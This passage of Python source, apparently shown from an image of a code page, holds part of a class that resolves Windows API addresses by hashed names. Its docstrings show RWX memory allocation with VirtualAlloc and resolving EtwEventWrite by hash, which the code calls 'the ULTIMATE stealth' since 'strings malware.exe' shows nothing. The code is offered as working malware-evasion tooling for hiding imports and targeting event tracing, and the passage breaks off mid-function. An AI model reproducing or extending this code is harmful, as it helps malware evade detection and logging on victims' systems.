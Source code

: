 ```python
                if self.hash_string(name) == function_hash:
                    # Found matching function!
                    # Get ordinal
                    ordinal = ctypes.c_uint16.from_address(ordinals_array + i * 2).value
                    
                    # Get function RVA from ordinal
                    func_rva = ctypes.c_uint32.from_address(functions_array + ordinal * 4).value
                    
                    # Return absolute address
                    return module_base + func_rva
            
            return None
            
        except Exception:
            return None
    
    def resolve_api(self, module_name: str, function_name: str) -> Optional[int]:
        """
        Resolve API by name (convenience wrapper)
        
        Usage:
            resolver = APIHashResolver()
            virtual_alloc_addr = resolver.resolve_api("kernel32.dll", "VirtualAlloc")
            
            # Create function pointer
            VirtualAlloc = ctypes.WINFUNCTYPE(
                ctypes.c_void_p,  # Return: LPVOID
                ctypes.c_void_p,  # lpAddress
                ctypes.c_size_t,  # dwSize
                wintypes.DWORD,   # flAllocationType
                wintypes.DWORD    # flProtect
            )(virtual_alloc_addr)
            
            # Call it
            mem = VirtualAlloc(None, 0x1000, 0x3000, 0x40)
        """
        module_hash = self.hash_string(module_name)
        function_hash = self.hash_string(function_name)
        
        # Get module base
        module_base = self.get_module_base_hashed(module_hash)
        if not module_base:
            return None
        
        # Get function address
        return self.get_proc_address_hashed(module_base, function_hash)
    
    def resolve_api_by_hash(self, function_hash: int, module_hash: int = None) -> Optional[int]:
        """
        Resolve API by pre-computed hash
        
        This is the ULTIMATE stealth - no strings at all
        
        Usage:
            # In source: hash values only
            resolver = APIHashResolver()
            etw_addr = resolver.resolve_api_by_hash(0x9B4C8D73, 0x1EDAB0ED)  # EtwEventWrite
            
            # Binary: strings shows NOTHING
            # $ strings malware.exe | grep -i etw
            # (no results)
        """
        if module_hash is None:
```